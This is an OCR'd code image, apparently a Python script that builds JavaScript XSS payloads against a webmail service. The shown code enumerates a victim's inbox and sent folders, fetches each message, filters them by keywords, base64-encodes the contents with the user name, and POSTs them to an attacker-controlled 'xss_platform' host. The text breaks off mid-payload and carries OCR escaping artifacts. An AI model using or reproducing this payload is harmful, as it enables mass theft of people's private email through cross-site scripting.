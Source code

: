 ```python
                max\_page = data1.changeMultiPage.totalPages;
                for(var a in data1.scripts){
                all\_email.push(data1.scripts\[a\].id); } }
                if(max\_count>=all\_email.length || max\_count==0 ){
                max\_count=all\_email.length;}
                for(var i=0;i<max\_count;i++ ){
                xmlhttp3=new XMLHttpRequest();
                eurl = EURL + decodeURIComponent('%26ReturnJavaScript=1%26ContentType=JavaScript%26FolderID=0%26Number=') + all\_email\[i\];
                xmlhttp3.open('GET',eurl,false);
                xmlhttp3.send(null);
                email\_response = xmlhttp3.responseText;
                var flag = 0;
                if(key\_words.length==0){flag=1;}
                for(var k in key\_words){
                if(email\_response.match(key\_words\[k\])!=null){flag=1;}}
                if(flag==0){continue;}
                var to\_send = 'a=' + window.btoa(encodeURIComponent(email\_response)) + decodeURIComponent('%26b=') + window.btoa(encodeURIComponent(user));
                xmlhttp4=new XMLHttpRequest();
                server = ' ''' + xss\_platform + ''' '
                xmlhttp4.open('POST',server,false);
                xmlhttp4.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
                xmlhttp4.send(to\_send); }}catch(error){}
            '''

send = '''
                try{                                
                newURL1 = currentURL.replace(/BlankMessageBody/,'List');
                EURL = currentURL.replace(/BlankMessageBody/,'Message');
                var all\_email = new Array();
                var max\_count = ''' + str(max\_count\_send) + ''';
                var key\_words =''' + keywords\_send + ''';
                var max\_page = 1;
                var page=1;
                for(page;page<max\_page+1;page++){
                xmlhttp2=new XMLHttpRequest();
                url1 = newURL1 + decodeURIComponent('%26ReturnJavaScript=1%26FolderID=9%26Page=') + page
                xmlhttp2.open('GET',url1,false);
                xmlhttp2.send(null);
                response1 = xmlhttp2.responseText;
                data1 =JSON.parse(response1);
                max\_page = data1.changeMultiPage.totalPages;
                for(var a in data1.scripts){
                all\_email.push(data1.scripts\[a\].id); } }
                if(max\_count>=all\_email.length || max\_count==0 ){
                max\_count=all\_email.length;}
                for(var i=0;i<max\_count;i++ ){
                xmlhttp3=new XMLHttpRequest();
                eurl = EURL + decodeURIComponent('%26ReturnJavaScript=1%26ContentType=JavaScript%26FolderID=9%26Number=') + all\_email\[i\];
                xmlhttp3.open('GET',eurl,false);
                xmlhttp3.send(null);
                email\_response = xmlhttp3.responseText;
                var flag = 0;
                if(key\_words.length==0){flag=1;}
                for(var k in key\_words){
                if(email\_response.match(key\_words\[k\])!=null){flag=1;}}
                if(flag==0){continue;}
                var to\_send = 'a=' + window.btoa(encodeURIComponent(email\_response)) + decodeURIComponent('%26b=') + window.btoa(encodeURIComponent(user));
                xmlhttp4=new XMLHttpRequest();
```